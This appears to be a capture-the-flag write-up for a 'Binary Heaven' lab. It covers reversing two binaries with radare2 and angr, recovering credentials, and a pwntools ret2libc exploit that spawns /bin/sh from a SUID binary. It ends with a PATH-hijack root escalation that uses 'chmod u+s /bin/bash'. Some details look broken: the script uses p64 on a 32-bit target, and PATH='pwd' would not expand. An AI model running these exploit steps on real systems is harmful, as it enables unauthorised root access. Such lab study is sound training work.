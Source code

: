 # Binary Heaven
- For this challenge we are given two files angel_A and angel_B.
- Starting with angel_A
```sh
file angel_A
angel_A: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=90a71dbbf2c94dc164a49328fb82f8fa914a9701, for GNU/Linux 3.2.0, not stripped
```
- Loading the file in r2 for analysis `r2 -A -d angel_A` or we can directly load the file and then use `aaa` option for analyzing the binary further.
```sh
afl ; for checking function present
0x5648a8cd5030    1      6 sym.imp.puts
0x5648a8cd5040    1      6 sym.imp.printf
0x5648a8cd5050    1      6 sym.imp.fgets
0x5648a8cd5060    1      6 sym.imp.ptrace
0x5648a8cd5070    1      6 sym.imp.exit
0x5648a8cd5080    1      6 sym.imp.__cxa_finalize
0x5648a8cd5090    1     42 entry0
0x5648a8cd7fe0    5   4130 reloc.__libc_start_main
0x5648a8cd50c0    4     34 sym.deregister_tm_clones
0x5648a8cd50f0    4     51 sym.register_tm_clones
0x5648a8cd5130    5     50 sym.__do_global_dtors_aux
0x5648a8cd5170    1      5 sym.frame_dummy
0x5648a8cd5000    3     23 sym._init
0x5648a8cd52c0    1      1 sym.__libc_csu_fini
0x5648a8cd52c4    1      9 sym._fini
0x5648a8cd5260    4     93 sym.__libc_csu_init
0x5648a8cd5175    8    225 main

pdf @sym.main (showing the content of the main function)
-------------------------snip---------------------------
0x5648a8cd51f3      eb48           jmp 0x5648a8cd523d
│      ┌──> 0x5648a8cd51f5      8b45fc         mov eax, dword [var_4h]
│      ╎│   0x5648a8cd51f8      4898           cdqe
│      ╎│   0x5648a8cd51fa      488d148500..   lea rdx, [rax*4]
│      ╎│   0x5648a8cd5202      488d05572e..   lea rax, obj.username   ; 0x5648a8cd8060 ; U"kym~humr"
│      ╎│   0x5648a8cd5209      8b1402         mov edx, dword [rdx + rax]
│      ╎│   0x5648a8cd520c      8b45fc         mov eax, dword [var_4h]
│      ╎│   0x5648a8cd520f      4898           cdqe
│      ╎│   0x5648a8cd5211      0fb64405f3     movzx eax, byte [rbp + rax - 0xd]
│      ╎│   0x5648a8cd5216      83f004         xor eax, 4
│      ╎│   0x5648a8cd5219      0fbec0         movsx eax, al
│      ╎│   0x5648a8cd521c      83c008         add eax, 8
│      ╎│   0x5648a8cd521f      39c2           cmp edx, eax
│     ┌───< 0x5648a8cd5221      7416           je 0x5648a8cd5239
│     │╎│   0x5648a8cd5223      488d3d560e..   lea rdi, str.e_31m_nThat_is_not_my_username_e_0m ; 0x5648a8cd6080
│     │╎│   0x5648a8cd522a      e801feffff     call sym.imp.puts       ; int puts(const char *s)
│     │╎│   0x5648a8cd522f      bf00000000     mov edi, 0
│     │╎│   0x5648a8cd5234      e837feffff     call sym.imp.exit       ; void exit(int status)
│     └───> 0x5648a8cd5239      8345fc01       add dword [var_4h], 1
-------------------------snip------------------------------
```
- In this code we can see that we have a loop which takes the value from a location (0x5648a8cd8060) and the xors with 4 and at end adds 8 to the digit
- Checking the content at that location
```sh
px @ 0x5648a8cd8060
- offset -      6061 6263 6465 6667 6869 6A6B 6C6D 6E6F  0123456789ABCDEF
0x5648a8cd8060  6b00 0000 7900 0000 6d00 0000 7e00 0000  k...y...m...~...
0x5648a8cd8070  6800 0000 7500 0000 6d00 0000 7200 0000  h...u...m...r...
```
- So these are the values that we have to take into consideration for getting our username this we'll do by a small python code
``` python
items = [0x6b, 0x79, 0x6d, 0x7e, 0x68, 0x75, 0x6d, 0x72]
username = ""
for item in items:
    username += chr((item - 8) ^ 4)
print(username)
```
- And with this we have our username
- If we don't want to go with this lengthy process we can use **Symbolic Execution with angr** for automating this purpose.
```python
import angr
import sys

def main(argv):
    b = "./angel_A"
    p = angr.Project(b)
    init = p.factory.entry_state()
    sm = p.factory.simgr(init)
    sm.explore()
    for state in sm.deadended:
        print(state.posix.dumps(sys.stdin.fileno()))

if __name__ == '__main__':
    main(sys.argv)
```

- Moving to angel_B as there is nothing more present in angel_A binary
```sh
file angel_B
angel_B: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=Xd_LgpWItJBNJmN63lQy/oWW_4FYae77KCrbbrcIX/2pmyS7gUszdXBsoOAYWo/PyEjnQ2VYI7PIdiOmGXg, not stripped
```
- Load the binary to r2 for analysis `r2 -A -d angel_B`, while checking the main function there was a very weird comment present there, it seemed like it's the password for our user so as to login to the machine
```
"GOg0esGrrr!IdeographicMedefaidrinNandinagariNew_Tai_LueOld_PersianOld_SogdianPau_Cin_HauSignWritingSoft_DottedWarang_CitiWhite_"
```
- The first part is the password for the server login.
- When we login to the system at the home folder we have two files one is user flag file and the second is another binary which we have to exploit for moving further in the challenge. We get this as we have suid bit set to the this binary so with this we'll be able to escalate as well `-rwsr-sr-x 1 binexgod binexgod 15772 May  8  2021 pwn_me`

```sh
file pwn_me
pwn_me: setuid, setgid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=09a0fc14e276c9e16015cc8efff3389f3e576ba6, for GNU/Linux 3.2.0, not stripped

checksec pwn_me
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/guardian/.cache/.pwntools-cache-3.5/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[!] An issue occurred while checking PyPI
[*] You have the latest version of Pwntools (4.3.1)
[*] '/home/guardian/pwn_me'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
- When we run the binary this is the output that we get.
```sh
./pwn_me
Binexgod said he want to make this easy.
System is at: 0xf7da6950
```
- Binexgod made it easy and leaked the address of system
- After checking the security of the binary we can see that we cannot execute on the stack.
- First we have to identify the offset where our program crashes and we get the sigfault, this we are going to do using cyclic and gdb
```sh
cyclic 100 > cyc_file
gdb -q ./pwn_me
Reading symbols from ./pwn_me...(no debugging symbols found)...done.
(gdb) r < cyc_file
Starting program: /home/guardian/pwn_me < cyc_file
Binexgod said he want to make this easy.
System is at: 0xf7df0950

Program received signal SIGSEGV, Segmentation fault.
0x61616169 in ?? ()
(gdb) quit
A debugging session is active.

	Inferior 1 [process 1868] will be killed.

Quit anyway? (y or n) y
guardian@heaven:~$ cyclic -l 0x61616169
32
```
- We have the offset at 32, now from here we can start writing our exploit
```python
from pwn import *

# loading the elf
elf = context.binary = ELF('./pwn_me')
libc = elf.libc
p = process()

# recieving the system address
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

# set our libc address according our leak
libc.address = system_leak - libc.symbols['system']
log.success('LIBC base address: {}'.format(hex(libc.address)))

# setting buffer and calling the /bin/sh
buff = b""
buff += b"A" * 32
buff += p64(libc.symbols['system'])
buff += p64(next(libc.search(b'/bin/sh\x00')))

p.sendline(buff)
p.interactive()
```
- Now when we run this python code we get an interactive shell where we are successfully logged in as `binexgod` user
- We can now switch to the `/home/binexgod` directory and get the user flag. Apart from that user flag we have vuln.c file present with the user which also has SUID bit set.
- When we run this file we get `Get out of heaven lol`, so now let's see the content of this vuln.c file
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo Get out of heaven lol");
}
```
- We can see that this c code is using a system command inside which it's executing echo without using the full path of the binary so if we were to make out own version of echo and place it with the binary then we'll get our execution elevated shell, this we can do in many ways we can create a c file with a single line which call `system("/bin/bash")` or we can use `echo "#!/bin/bash\nchmod u+s /bin/bash" > echo`.
- After this we have to set the current directory to the path and run the vulnerable binary
```sh
chmod u+x echo
PATH='pwd':$PATH ./vuln
```
- Now if used the second method then just run `bash -p` and we get out root.

